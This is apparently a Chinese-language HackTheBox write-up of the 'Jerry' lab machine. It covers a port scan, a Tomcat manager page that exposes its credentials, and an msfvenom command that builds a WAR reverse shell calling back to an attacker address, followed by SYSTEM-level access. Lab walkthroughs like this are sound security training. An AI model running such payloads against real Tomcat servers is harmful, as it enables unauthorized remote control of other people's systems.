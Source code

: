 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 jerry Windows/","tags":["靶场","打靶","windows","hackthebox"]}
---
```


![image.png](https://s2.loli.net/2025/06/21/vePFNrjIm3ZEw6c.png)

## 端口扫描
![image.png](https://s2.loli.net/2025/06/21/Qav2lDAfLwF3mKB.png)

只有一个 8080 端口

## web 服务信息收集
这是个 tomcat，看看有什么能利用的漏洞吗
![image.png](https://s2.loli.net/2025/06/21/jrzUlyF5DMda3Ye.png)

点击 manager app 可以发现要输入账密。随便输点东西就会爆出账密
![image.png](https://s2.loli.net/2025/06/21/5JmEYzDXckyZupC.png)

## 上传反弹 shell
进入管理界面，我们可以考虑一波。上传 war 的反弹 shell
![image.png](https://s2.loli.net/2025/06/21/5KMGpnQujBCt2sX.png)

用 msfvennom 制作木马
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.12 LPORT=8888 -f war -o shell.war
```

![image.png](https://s2.loli.net/2025/06/21/byXCckwUJi7PNML.png)


![image.png](https://s2.loli.net/2025/06/21/HFIcts9KQuqU3pf.png)

反弹 shell 成功

![image.png](https://s2.loli.net/2025/06/21/fyAKjGzdN1VMETx.png)

还是最高权限的用户

## 找 flag
![image.png](https://s2.loli.net/2025/06/21/Jq9puZfNOUDBkgL.png)



